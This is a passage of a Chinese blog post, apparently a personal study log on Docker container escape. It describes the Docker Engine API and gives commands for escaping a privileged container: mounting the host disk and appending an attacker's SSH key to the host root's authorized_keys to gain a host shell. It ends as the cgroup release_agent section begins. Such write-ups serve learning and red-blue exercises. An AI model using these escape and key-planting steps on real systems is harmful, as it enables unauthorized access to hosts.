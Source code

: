 ```yaml
---
layout: post
title: 容器逃逸学习记录
---
```

## 0x00 前言
如今，容器在各个大型企业已经开始广泛部署，其安全也成为红蓝对抗的焦点，在拜读了腾讯蓝军的文章
[红蓝对抗中的云原生漏洞挖掘及利用实录](https://security.tencent.com/index.php/blog/msg/183)之后受益匪浅，对其中的容器逃逸非常感兴趣，于是便在本地搭建了环境，学习文中的思路，并记录遇到的问题，以便日后查阅。

## 0x01 Docker Engine API
Docker提供了API可以与Docker daemon进行交互，目前已经更新到[v1.41](https://docs.docker.com/engine/api/v1.41/#)  
通过Docker Engine API，我们可以用Python、Go、HTTP来对容器进行创建、关闭、执行命令等操作，其效果和运行docker client是一样的，这样极大的方便了我们对容器的操作,同时也方便了逃逸。一些简单的API请求可以参考[docker官网](https://docs.docker.com/engine/api/sdk/examples/)  

## 0x02 特权容器逃逸

### 挂载设备逃逸
首先我们创建一个特权容器，这里选用ubuntu  
```bash
sudo docker run -it --privileged --name=test1 ubuntu /bin/bash
```
在特权容器下，我们的权限比较大，可以将宿主机的设备挂载到容器中，这样便可以操作宿主机的任意文件，进行逃逸。  
查看宿主机的分区情况:
```bash
fdisk -l
```
显示出的信息如下  
```
Disk /dev/xxx: 10.11 GiB, 1000000000 bytes, 1000000 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
```
知道了分区情况之后，就容易多了，我们创建一个目录，将/dev/xxx挂载到test/目录中，这时候我们操作test目录也就是操作宿主机的根目录：  
```bash
mkdir test && mount /dev/xxx
```
将一台攻击机的ssh key下载到容器内，写到/root/.ssh/下:  
```bash
cd /test/root/.ssh
cp authorized_keys authorized_keys1 #复制原有的ssh key
cat /id_rsa.pub >> ./authorized_keys
```
此时我们用攻击机去连接，便可以获取到宿主机的shell，当然这种写ssh key的方法并不推荐，很容易被检测到。

### cgroup release_agent 逃逸
百度百科中关于cgroup的解释:
>cgroup是Linux内核的一个机制，用来限制、控制与分离一个进程组的资源（如CPU、内存、磁盘输入输出等）。
